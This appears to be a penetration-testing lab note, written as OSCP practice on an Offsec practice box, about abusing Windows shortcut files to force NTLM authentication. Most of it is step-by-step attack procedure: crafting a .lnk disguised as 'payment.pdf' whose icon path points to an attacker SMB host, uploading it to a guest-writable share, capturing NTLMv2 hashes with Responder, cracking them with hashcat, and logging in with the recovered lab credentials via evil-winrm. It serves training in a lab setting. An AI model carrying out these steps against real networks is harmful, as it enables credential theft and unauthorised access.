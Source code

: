 # Evil Windows Library File
- Tool: https://github.com/Greenwolf/ntlm_theft
- google search: generate force NTLMv2 Authentication files site:github.com
- This is allowed on OSCP as it is NOT automatic exploitation
- if you see a SMB share with writable permissions, upload an EVIL lnk file
- Use responder to catch NTLMv2 creds
- Box: ***Vault*** - Offsec PG Practice
- Demo during Hacktrack with Mentors, Assembling the pieces 3.
- reference PEN200 12.3.1 https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979
- https://field-manual.brunorochamoura.com/manual/exploitation/client-side-exploitation/evil-windows-library-file/
---
## Forced Authentication & .lnk File Abuse
Forced Authentication: 
	- Coerce Authentication via abusing legitimate file functions  
LNK icon smuggling:   
	- Coerce authenicaion via ICON paths
	- Execute malicious code via legitimate functions
	- WE can replace lnk files to point to a remote file
	- we can also make lnk files use binary, to exeucte some command we want
	- If you find a share we have write access to, upload our evil binary
	- Mount share  smbclient \\\\IP\ShareName  

---

### Craft EVIL .lnk File

```
On windows desktop, right-click -> new shortcut
Location:  %WINDIR%  -> next
name: "payment.pdf"  -> finish

WE will change icon to look like PDF.
If target doesnt have view option, "show file extensions" on, our LNK will look like a .pdf file
Right-click our EVIL lnk -> properties -> 
target: %ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt

%comspec% == cmd.exe
change icon -> Look for icons in this file -> \\KALIIP\test.ico
hit OK, there will be an error..

When user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
This provides us with a HASH, from the target user/computer

google search: generate force NTLMv2 Authentication files site:github.com
```
---

### Identify SMB Write Access
```
# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
```
Here we see DocumentsShare is mis-permissioned, and we, as GUEST, have write access.

---

### Listen With Responder
responder is only in analyze mode, no poisoning or spoofing is being used
`sudo responder -I tun0 -A`

Relay if you can't crack : [Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---
### Upload Evil LNK
```
smbclient \\\\192.168.165.172\\DocumentsShare
put payment.pdf.lnk
```

Check responder, we should see NTLMv2 hit
Once the user/scheduled task/automation touches/view or file, we should get a hash in responder

---

### Crack
Hash should be NTLMv2, and be autodetected by hashcat. 
If crack not possibly, we can also relay to another host.
hashcat hash /usr/share/wordlists/rockyou.txt
`hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`

[Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Use your New Found Power
Now that we have a password, we should re-enumerate shares
```
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 
```
